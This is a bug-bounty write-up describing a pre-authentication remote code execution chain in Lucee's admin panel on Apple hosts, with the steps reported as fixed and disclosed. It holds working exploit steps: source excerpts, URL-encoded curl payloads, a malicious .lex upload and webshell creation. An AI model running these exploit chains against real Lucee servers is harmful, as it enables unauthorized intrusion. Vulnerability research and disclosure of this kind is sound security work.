





# Finding 0day to hack Apple

### Getting started
We started hacking on Apple after the [infamous blog](https://samcurry.net/hacking-apple/) by Sam, et al. The goal was to focus on critical findings such as PII exposure or getting access to Apple's servers/internal network. These are the types of bugs we thought Apple would be most interested in.

### Reconnaissance and fingerprinting

While going through our recon data and fingerprinting what services might be running, we found three hosts running on a CMS backed by [Lucee](https://github.com/lucee/Lucee/). 

As both the CMS and Lucee were easily available to host locally, they were good targets for us to hack on. We opted to focus on Lucee as it exposed an admin panel and has a history of vulnerabilities. Lucee is forked on Railo-context, which was briefly discussed in [Breaking Parser Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) by [Orange Tsai](https://twitter.com/orange_8361).

Lucee's admin panel was accessible on three different Apple hosts. Two were running an outdated version and the other was running a fairly recent version.

- https://facilities.apple.com/ (Recent version)
- https://booktravel.apple.com/ (Older version)
- https://booktravel-uat.apple.com/ (Older version)

### Apple's WAF Behaviour

To exploit the vulnerabilities that we'll discuss below, we need to understand the WAF Apple uses and, more importantly, how the front end server at facilities.apple.com interacts with it. 

Apple has a very painful WAF. It blocks almost any attempted Path-traversal/SQLi via URL (query params). 

The frontend server (reverse proxy) at facilities.apple.com is configured to only show responses from the backend server with 200 and 404 status codes. If you get any other status code on the backend, the frontend server will serve a 403, which is the same response as when the WAF Is triggered.

### Lucee Misconfiguration

While testing out Lucee locally, we came across a critical misconfiguration which allowed an attacker to access authenticated CFM (ColdFusion) files directly. This allowed us to perform a lot of authenticated actions while being completely unauthenticated. 

Within the CFM files, as soon as you hit the `request.admintype` variable/propery the execution flow will stop as we're not authenticated as admin. However, any code before reaching that check executes. So we had to find files that had some sort of bug before we hit `request.admintype`.

We'll make use of these three files to gain a complete pre-auth/unauth RCE on a Lucee installation:

- imgProcess.cfm (not available in older versions)
- admin.search.index.cfm
- ext.applications.upload.cfm

## Failed attempt

### Sweet & Simple RCE in imgProcess.cfm 

To replicate Apple's installation, we got a local copy of Lucee running with the same version. Opening the file without any parameters gave us an exception on our installation. Opening the file on Apple's servers gave us a 403 which means that the file exists. We just needed to specify the right parameter/values, otherwise the backend server would raise an exception for which the frontend server would serve a 403.

Giving wrong parameters - 


Giving right parameters -




This file had a path traversal vulnerability to create a file anywhere on the server with our given content. 

```cfm
<cfoutput>
	<cffile action="write" 
	file="#expandPath('{temp-directory}/admin-ext-thumbnails/')#\__#url.file#"
	Output="#form.imgSrc#" 
	createPath="true">
</cfoutput> 
```

This takes a query parameter `file` and creates it with this line: `{temp-directory}/admin-ext-thumbnails/__{our-input}`. Our input can be defined via post parameter `imgSrc`. 

As you can already see, to do a path traversal we need the `__` directory to exist as Linux requires a path to exist before doing a traversal. Luckily for us, `expandPath` creates the path if it doesn't exist and returns the path as a string. So, passing `file=/../../../context/pwn.cfm` will create the directory `__` and traverse to the context directory within webroot thus giving us an ezz RCE here.

However, even with this bug, ***we can't exploit this in Apple's case because the WAF*** blocks the `../` in query parameter. This endpoint specifically asks the `file` parameter to be a query parameter (`url.file`, but `form.imgSrc`). If both were form or post parameters we wouldn't trigger the WAF. **We could still use this endpoint to create files with a name and content that we control in a certain directory without triggering the WAF.**  

## What now? How can we avoid triggering the WAF?

### Tricky copy

`admin.search.index.cfm` allows us to specify a directory and copy its contents to our desired location. However, **the copy function is very tricky and won't actually copy the file contents, nor will it preserve the file extension.**

This endpoint takes two parameters:

- dataDir
- luceeArchiveZipPath

`dataDir` is the path where you want to copy the files specified via the `luceeArchiveZipPath` parameter. If the path doesn't exist, it will be created. We can pass an absolute path here.

```cfm
<cfif not directoryExists(dataDir)>
		<cfdirectory action="create" directory="#dataDir#" mode="777" recurse="true" />
</cfif>
 ```
 
Example request:

```http
GET /lucee/admin/admin.search.index.cfm?dataDir=/copy/to/path/here/&LUCEEARCHIVEZIPPATH=/copy/from/path/here HTTP/1.1
Host: facilities.apple.com
User-Agent: Mozilla/5.0 
Connection: close
```

Now that we know the copy function is not standard, let's take a deeper dive into the code responsible for doing this.

We noticed this interesting CFML tag:

```cfm
<cfdirectory action="list" directory="#luceeArchiveZipPath#" filter="*.*.cfm" name="qFiles" sort="name" />
```

It lists the files inside the **luceeArchiveZipPath** directory. ***The filter attribute says to only list files which are of format \*.\*.cfm***. The result of this query is stored in the **"qFiles"** variable. 

Next, it iterates over each file (which it stores in the variable **currFile**), replaces **'.cfm'** occurrence in the file's name to a blank string '', and stores this updated filename in the **currAction** variable. Thus, if we have a file `test.xyz.cfm`, it becomes `test.xyz`. 

```cfm
<cfset currAction = replace(qFiles.name, '.cfm', '') />
```

Afterwards, it checks if a filename like 'test.xyz.en.txt' or 'test.xyz.de.txt' exists in the **dataDir** directory. Again, the **dataDir** variable is user-controlled. If this file does not exist, it replaces  dots ('.') in the filename with whitespace and saves it into the **pageContents.lng.currAction** variable. 

```cfm
<cfif fileExists('#dataDir##currAction#.#lng#.txt')>
<cfset pageContents[lng][currAction] = fileRead('#dataDir##currAction#.#lng#.txt', 'utf-8') />
<cfelse>
<!--- make sure we will also find this page when searching for the file name--->
<cfset pageContents[lng][currAction] = "#replace(currAction, '.', ' ')# " />
</cfif>
```
Later on, the file test.xyz.\<lang\>.txt is created and the value of the **pageContents.lng.currAction** variable becomes its contents.

Unfortunately for us, it creates the .txt file even though we can control the content of the file as it comes from the filename itself. But we will see how we can utilize the file name itself to do stuff ;) as we move further.

Following this, it stores the content of **currFile** in the **data** variable, filters out ***the files with content that does not match the regular expression*** `[''"##]stText\..+?[''"##]`, and puts them into the **finds** array.

```cfm
<cfset data = fileread(currFile) />
<cfset finds = rematchNoCase('[''"##]stText\..+?[''"##]', data) />
```

It then loops over the **finds** array and checks whether each item exists as a key. If it does not, it will create it as a key and store it in the **searchresults** variable.

```cfm
<cfloop array="#finds#" index="str">
	<cfset str = rereplace(listRest(str, '.'), '.$', '') />
		[..snip..]
		<cfif structKeyExists(translations.en, str)>
			<cfif not structKeyExists(searchresults[str], currAction)>
				<cfset searchresults[str][currAction] = 1 />
			<cfelse>
				<cfset searchresults[str][currAction]++ />
			</cfif>
		</cfif>
</cfloop>
```

Finally, these keys (i.e. the **searchresults** variable) are stored in a file named **"searchindex.cfm"** inside the **dataDir** directory as JSON.

```cfm
<cffile action="write" file="#dataDir#searchindex.cfm" charset="utf-8" output="#serialize(searchresults)#" mode="644" />
```

## Remote Code Execution on facilities.apple.com

If you haven't already figured it out, at this point we have a sweet RCE on https://facilities.apple.com by chaining `imgProcess.cfm` and `admin.search.index.cfm`.

We have control over a directory where we can copy files to (the **dataDir** parameter) and can specify a directory to copy files from (the **luceeArchiveZipPath** parameter).

Now, if we can create a file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with a content of `"#stText.x.f#"` somewhere on the server, then we can pass its path via **luceeArchiveZipPath** to `admin.search.index.cfm`. Since this key `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` does not exist, it will create it and write it into a file named **searchindex.cfm**. This means that we can control the CFML tags (similar to PHP tags) in the **searchindex.cfm** file in any directory we specify with the **dataDir** parameter, which means that we can use the webroot path to execute code on the server!

We can utilize `imgProcess.cfm` to create a file `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` on the target's filesystem with contents that match the RegExp `[''"##]stText\..+?[''"##]`. 

This attempt won't trigger WAF because we're not doing path traversal here.

### Steps to get a shell

- Create a file named  `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with the content `"#stText.x.f#"` (to match the regex). We'll URL encode the filename because the backend (tomcat) won't like certain characters.

`curl -X POST 'https://facilities.apple.com/lucee/admin/imgProcess.cfm?file=%2F%73%65%72%76%65%72%2e%3c%63%66%66%69%6c%65%20%61%63%74%69%6f%6e%3d%77%72%69%74%65%20%66%69%6c%65%3d%23%55%72%6c%5b%27%66%27%5d%23%20%6f%75%74%70%75%74%3d%23%55%72%6c%5b%27%63%6f%6e%74%65%6e%74%27%5d%23%3e%2e%63%66%6d'  --data 'imgSrc="#stText.Buttons.save#"'`

- Copy the filename to prepare the code execution 

`curl 'http://facilities.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/context/rootxharsh/&LUCEEARCHIVEZIPPATH=/full/path/lucee/temp/admin-ext-thumbnails/__/'`

- Write shell to trigger code execution 

`curl https://facilities.apple.com/lucee/rootxharsh/searchindex.cfm?f=PoC.cfm&content=cfm_shell`

- Access webshell - https://facilities.apple.com/lucee/rootxharsh/PoC.cfm



## But, what about other hosts?

Because `imgProcess.cfm` wasn't available in older versions, we had to find some other way to get RCE on the other two hosts. We came across another neat way ;).

### Unauthenticated .lex file upload

`ext.applications.upload.cfm` is partially unauthenticated. The code snippet is fairly simple. We're required to pass the `extfile` form parameter with filename's extension set to `.lex` otherwise we'll get an exception. 

```cfm
<cfif not structKeyExists(form, "extfile") or form.extfile eq "">
	...
</cfif>
<!--- try to upload (.zip and .re) --->
<cftry>
	<cffile action="upload" filefield="extfile" destination="#GetTempDirectory()#" nameconflict="makeunique" />
	<cfif cffile.serverfileext neq "lex">
		<cfthrow message="Only .lex is allowed as extension!" />
	</cfif>
	<cfcatch>
		...
	</cfcatch>
</cftry>

<cfset zipfile = "#rereplace(cffile.serverdirectory, '[/\\]$', '')##server.separator.file##cffile.serverfile#" />
```

With the `.lex` extension we go through this piece of code: 

```cfm
<cfif cffile.serverfileext eq "lex">
...
        type="#request.adminType#"
...
</cfif>
```

Because we don't have `request.admintype` set, this causes an exception. However, our file is still uploaded before reaching this, as can be confirmed here: 



A `.lex` file is nothing but an archive or a zip file with '.lex' extension, which is actually a format of Lucee's extensions which we could upload. Also, there's no check on the contents, so we can set it to anything.

### Gist of the Exploit

From playing around with Lucee, we knew that it allows using protocol/schemes like zip://, file:// etc. (which we utilized in this exploit chain) so we could specify these schemes wherever a fileSystem function had our fully controlled input (**luceeArchiveZipPath** in this case).

We can now utilize `ext.applications.upload.cfm` to create `.lex` file which will have a ZIP archive containing a file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with `"#stText.x.f#"` as content.

Once we have our ZIP archive on the filesystem, we can utilize **zip://** in the **luceeArchiveZipPath** variable to query within the ZIP archive for the **\*.\*.cfm** files ;).


### Getting a shell on the other 2 hosts

- Create a file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with content `"#stText.x.f#"` and zip it as `payload.lex`



- Upload the `.lex` file via the aforementioned unauthenticated .lex file upload in `ext.applications.upload.cfm` 

`curl -vv -F extfile=@payload.lex https://booktravel.apple.com/lucee/admin/ext.applications.upload.cfm`

- Equipped with the arbitrary `.lex` (zip archive) on the file system and the zip:// scheme we can do something like this:

`curl https://booktravel.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/web/context/exploit/&luceeArchiveZipPath=zip:///full/path/lucee/web/temp/payload.lex`

- Now, our file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` has been added as text in the **searchindex.cfm** file under `/<lucee web>/context/exploit/` and we can access it via `https://booktravel.apple.com/<lucee root>/exploit/searchindex.cfm`

- Making a request to https://booktravel.apple.com/lucee/exploit/searchindex.cfm?f=test.cfm&output=cfml_shell will create our webshell

- Webshell : https://booktravel.apple.com/lucee/exploit/test.cfm?cmd=id



**There were load balancers in place so we had to use intruder to find our shell lol**

## Conclusion

Apple prompty fixed the issue but requested us to not disclose the issue before they make some other changes. Apple rewarded us with a total of $50,000 bounty for these issues. 

On the other hand, we and Apple also talked with Lucee. The Lucee team has also fixed the bug by restricting access to cfm files directly, here's the [commit link](https://github.com/lucee/Lucee/commit/6208ab7c44c61d26c79e0b0af10382899f57e1ca). We're still awaiting on CVE allocation though.

Huge shoutout to Apple Product Security Team for being transparent & allowing the disclosure of this writeup!

If you have any questions, ping us at [@rootxharsh](https://twitter.com/rootxharsh) & [@iamnoooob](https://twitter.com/iamnoooob). 

Thanks for reading, have a great year ahead!
